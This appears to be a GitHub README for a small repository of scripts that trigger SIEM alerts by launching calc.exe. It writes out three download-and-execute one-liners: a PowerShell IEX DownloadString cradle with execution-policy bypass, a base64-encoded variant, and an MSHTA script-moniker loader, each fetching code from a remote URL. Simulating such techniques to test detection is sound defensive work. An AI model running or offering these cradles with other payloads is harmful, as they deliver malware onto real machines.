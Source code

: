 # runcalc
Just some basic scripts for testing SIEM alerts


#Invoke-Expression
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

### Standard Execution
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/invokecalc.ps1');invoke-calc"

### Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==

###MSHTA
The command will use MSHTA to download a payload that executes calc.exe
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct").Exec();close();
